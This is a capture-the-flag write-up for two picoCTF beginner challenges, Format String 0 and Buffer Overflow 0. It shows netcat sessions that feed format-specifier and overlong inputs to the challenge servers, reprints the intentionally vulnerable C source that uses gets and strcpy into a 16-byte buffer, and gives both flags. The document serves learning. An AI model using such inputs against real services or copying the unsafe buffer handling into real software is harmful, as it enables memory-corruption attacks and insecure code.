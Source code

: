 # Format String 0


**Flag**= `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}`

This challenge required us to use knowledge on format specifiers to get the flag.
One of the hints on this challenge encouraged me to look up info about format specifiers.

I found out that these are commonly used placeholders for data input and output in functions like scanf and printf in languages like C and C++.
``%s, %d, %x, %p`` etc. are some examples.
They always begin with % symbol which is used to indicate them being a format specifier.
Exploitation on these can be done through leaking the data from stacks and by repeatedly giving format specifiers like these, an attacker can read things from the stack which includes addresses and variables.


So with this knowledge I went ahead and started the challenge in my webshell terminal on picoCTF.
Each time, I just selected the option with % in it and arrived at the flag pretty easily.

```bash
Sylvaris-picoctf@webshell:~$ nc mimas.picoctf.net 55232
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

References:

- Binary Exploitation: Format String Vulnerabilities by Vikie Li on Medium
- https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be

# Buffer Overflow 0

**flag** = `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`
I opened the source code on the webshell first 
```bash

Sylvaris-picoctf@webshell:~$ wget https://artifacts.picoctf.net/c/172/vuln.c
--2024-11-08 14:09:37--  https://artifacts.picoctf.net/c/172/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 3.160.5.93, 3.160.5.71, 3.160.5.42, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|3.160.5.93|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: 'vuln.c'

vuln.c               100%[====================>]     808  --.-KB/s    in 0s      

2024-11-08 14:09:37 (6.76 MB/s) - 'vuln.c' saved [808/808]

Sylvaris-picoctf@webshell:~$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```
Here vuln function has a local buffer of size 16 bytes which meant that if we put in an input larger than 16 bytes, it will lead to a buffer overflow which is what the challenge required from us.
The function copies the input into buf2 which is what is vulnerable to the buffer overflow.

Hence I just connected to the challenge on the webshell and put in a sufficiently large strings of characters and got the flag.

```bash
Sylvaris-picoctf@webshell:~$ nc saturn.picoctf.net 52716
Input: haejfnoiffnergonergorngoegegprgrwfrf
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

References:

-ChatGPT to understand the Vuln function.
